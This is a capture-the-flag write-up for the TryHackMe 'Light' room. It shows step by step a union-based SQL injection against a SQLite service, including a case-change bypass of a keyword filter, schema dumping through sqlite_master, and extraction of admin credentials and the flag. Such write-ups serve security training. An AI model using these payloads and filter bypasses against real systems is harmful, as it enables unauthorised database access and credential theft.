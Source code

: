 ```yaml
---
title: "TryHackMe: Light"
author: Kasem Shibli
categories: [TryHackMe]
date: 2025-01-20 00:00:01 +0000
tags: [sql, sql injection, sqlite]
render_with_liquid: false
media_subpath: /blog/images/tryhackme_light/
image:
  path: room_image.webp
---
```


**Light** was a simple room where we exploited an `SQL` injection in a `SQLite` database to retrieve the credentials for the admin user and a flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/lightroom){: .center }

## Discovering the SQL Injection

As per the room instructions, after connecting to the service on port `1337`, we encounter a database application.

```console
$ rlwrap nc 10.10.67.194 1337
Welcome to the Light database!
Please enter your username:
```

The room also instructs us to use the username `smokey` to begin, and upon entering it, we retrieve the password for the user.

```console
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Since it is a database application, if we try a simple `SQL` injection with `'`, we see that it is successful as we get the error: `Error: unrecognized token: "''' LIMIT 30"`.

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

Trying a union-based injection and commenting out the `' LIMIT 30` part with `--`, we encounter an interesting error stating that `/*`, `--`, or `%0b` are not allowed.

```console
Please enter your username: ' UNION SELECT 1-- -
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

Instead of trying to comment out the last part due to the `'` causing errors, since `SELECT 1 ''` is a valid query, we can turn the query into `UNION SELECT 1 '' LIMIT 30` by appending `'` to our payload as `' UNION SELECT 1 '`. As we can see, this works, but this time we encounter an interesting error about certain words not being allowed.

```console
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

It seems the `UNION` and `SELECT` keywords are not allowed, but we can easily bypass this filter by using capitalization.

```console
Please enter your username: UNION
Ahh there is a word in there I don't like :(
Please enter your username: SELECT
Ahh there is a word in there I don't like :(
Please enter your username: Union
Username not found.
Please enter your username: Select
Username not found.
```

As we can see now, with the payload `' Union Select 1 '`, we are successful with a union-based injection.

```console
Please enter your username: ' Union Select 1 '
Password: 1
```

## Identifying the DBMS

With the union-based injection we have, if we attempt to identify the database management system, we discover it is `SQLite`.

```console
Please enter your username: ' Union Select version() '
Error: no such function: version
Please enter your username: ' Union Select USER_ID(1) '
Error: no such function: USER_ID
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

## Dumping Database Structure

Now that we know the DBMS is `SQLite`, we can use the payload `' Union Select group_concat(sql) FROM sqlite_master '` to extract the database structure, as shown below:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

## Extracting Data

Since our goal is to find the credentials for the admin user, we can dump the `username` and `password` fields from the `admintable` using the payload `' Union Select group_concat(username || ":" || password) FROM admintable '` and this not only gives us the credentials but also the flag, allowing us to complete the room.

```console
Please enter your username: ' Union Select group_concat(username || ":" || password) FROM admintable '
Password: Tr[REDACTED]in:ma[REDACTED]17,flag:THM{SQ[REDACTED]O?}
```
{: .wrap }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>


